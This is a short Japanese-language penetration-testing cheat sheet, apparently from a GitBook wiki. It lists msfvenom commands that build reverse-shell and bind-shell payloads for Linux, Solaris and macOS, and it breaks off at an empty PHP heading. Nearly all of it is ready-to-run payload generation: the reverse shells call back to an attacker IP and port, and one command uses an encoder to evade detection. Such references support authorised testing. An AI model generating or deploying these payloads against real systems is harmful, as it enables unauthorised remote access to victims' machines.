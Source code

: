 ## Linux ペイロード

### リバースシェル

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
{% endcode %}

### バインドシェル

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
### SunOS (Solaris)

{% code overflow="wrap" %}
```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```
{% endcode %}

## **MACペイロード**

### **リバースシェル:** 

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```
{% endcode %}

### **バインドシェル**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
{% endcode %}

## **ウェブベースのペイロード**

### **PHP**

#### リバースシェル
